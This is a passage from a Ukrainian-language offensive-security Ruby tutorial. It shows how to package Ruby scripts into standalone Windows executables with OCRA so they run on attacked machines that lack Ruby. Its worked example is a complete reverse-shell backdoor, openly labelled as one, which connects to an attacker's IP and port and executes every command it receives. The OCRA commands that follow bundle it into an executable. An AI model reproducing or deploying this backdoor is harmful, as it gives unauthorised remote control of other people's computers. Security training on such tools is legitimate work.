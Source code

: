# модуль 0x2 | Системне Кнуг-Фу

## Пакування

Може виникнути питання про написання самостійних програм, яким для роботи не потрібно мати встановленого в системі Рубі. І дійсно, атакуючи якийсь комп'ютер, ми не можемо гарантувати що на ній буде встановлено Рубі і це проблема. В цьому розділі ми покажемо деякі шляхи як вирішити цю проблему.

### Збирач Рубі Застосункав в один клік(OCRA Builder)
OCRA (One-Click Ruby Application) збирає програму під Windows використовуючи вихідний код на Рубі. Результатом роботи збирача буде готова програма, яка міститиме в собі інтерпретатор Рубі, ваш вихідний код, а також необхідні dll бібліотеки.

**Це працює тілки в Windows**, насправді ні ;)

- Можливості
> - LZMA Компресія (ввімкнено за замовченням)
> - Підтримка Ruby 1.8.7, 1.9.3, 2.0.0 а також 2.1.5 
> - Підтримку/ як віконний так і консольний режими
> - Включає потрібні для роботи геми, або геми вказані в Gemfile

- Установка OCRA
```
gem install ocra
```
Отже все що залишилося, так це мати програму, що ми збиратимемо.
Припустимо, в нас ж наступний скрипт, бекдор звісно ж ;)

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.new(ip,port)
while cmd = s.gets
  IO.popen(cmd,"r"){|io|s.print io.read}
end
```

І тепер на вашому комп'ютері з ОС Windows виконайте наступну команду в cmd.exe
```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
```

Результат: 

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
=== Loading script to check dependencies
ruby C:/Users/admin/Desktop/rshell.rb.rb [HACKER_IP HACKER_PORT]

=== Attempting to trigger autoload of Gem::ConfigFile
=== Attempting to trigger autoload of Gem::DependencyList
=== Attempting to trigger autoload of Gem::DependencyResolver
=== Attempting to trigger autoload of Gem::Installer
=== Attempting to trigger autoload of Gem::RequestSet
=== Attempting to trigger autoload of Gem::Source
=== Attempting to trigger autoload of Gem::SourceList
=== Attempting to trigger autoload of Gem::SpecFetcher
=== Attempting to trigger autoload of CGI::HtmlExtension
=== Detected gem ocra-1.3.5 (loaded, files)
===     6 files, 191333 bytes
```

[^1]: Traveling-ruby: [Офіційний сайт](http://phusion.github.io/traveling-ruby/)
[^2]: mruby CLI: [Офіційний сайт](https://github.com/hone/mruby-cli)
[^3]: RubyEncoder: [Офіційний сайт](http://rubyencoder.com)